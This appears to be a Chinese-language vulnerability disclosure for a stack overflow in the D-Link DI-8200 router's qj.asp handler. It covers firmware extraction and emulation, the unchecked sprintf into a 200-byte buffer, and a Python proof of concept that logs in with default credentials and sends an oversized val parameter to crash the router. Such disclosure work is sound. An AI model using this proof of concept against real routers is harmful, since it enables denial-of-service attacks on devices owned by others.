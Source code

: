 # D-Link DI-8200栈溢出漏洞

## 固件提取与模拟

获取DI-8200路由器固件，使用binwalk对固件进行分析解包，提取文件系统：

```shell
binwalk -Me DI_8200-16.07.26A1.trx
```

![p1](./pic/p1.png)

使用FirmAE模拟固件运行：

```shell
sudo ./run.sh -d aa ../CVE/DI_8200-16.07.26A1.trx
```

![p3](./pic/p3.png)

## 漏洞分析

提取固件文件系统，在\usr\sbin\jhttpd文件的qj_asp函数中存在栈溢出漏洞：

![p2](./pic/p2.png)

qj_asp函数属于jhttpd内部实现的用于处理qj.asp页面参数的函数，登录路由器后可以通过http://\<ip\>/qj.asp访问，同时通过val参数可以传入任意值。val参数传入的值会通过httpd_get_parm函数获取到，随后获取到的值将通过sprintf函数格式化赋值到栈变量v9中。

![p4](./pic/p4.png)

变量v9是一个长度为200个字节的字符数组，由于val参数的值可以通过前端传入的参数进行控制且在格式化赋值时并没有对该参数变量进行检查和过滤，因此可以通过控制val参数的值使得程序造成栈溢出，从而可以造成拒绝服务甚至命令执行。

![p5](./pic/p5.png)

## 漏洞验证

poc:

```python
import requests

s = requests.session()
url = "http://192.168.0.1"
headers = {
    "User-Agent": "Mozilla/5.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "close",
    "Upgrade-Insecure-Requests": "1"
}
data = {"user": "admin", "password": "admin"}
s.post(f"{url}/login.cgi", headers={**headers, "Content-Type": "application/x-www-form-urlencoded", "Origin": url, "Referer": f"{url}/login.html"}, data=data)
p = b'a' * 0x500
r = s.get(f"{url}/qj.asp?val={p}", headers=headers)
print(r.text)
```

执行poc之前，路由器正常访问：

![p6](./pic/p6.png)

执行poc，将造成栈溢出，导致路由器崩溃，从而实现拒绝服务攻击：

![](./pic/p7.png)

![p8](./pic/p8.png)

